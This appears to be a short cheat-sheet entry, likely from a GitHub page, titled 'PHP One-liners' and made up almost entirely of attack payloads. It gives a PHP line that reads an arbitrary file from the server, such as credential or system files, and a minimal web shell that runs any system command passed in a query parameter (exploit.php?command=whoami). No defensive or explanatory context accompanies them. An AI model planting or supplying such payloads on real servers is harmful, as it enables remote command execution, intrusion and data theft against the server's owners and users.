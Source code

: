 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter _(exploit.php?command=whoami)_:

`<?php echo system($_GET['command']); ?>`



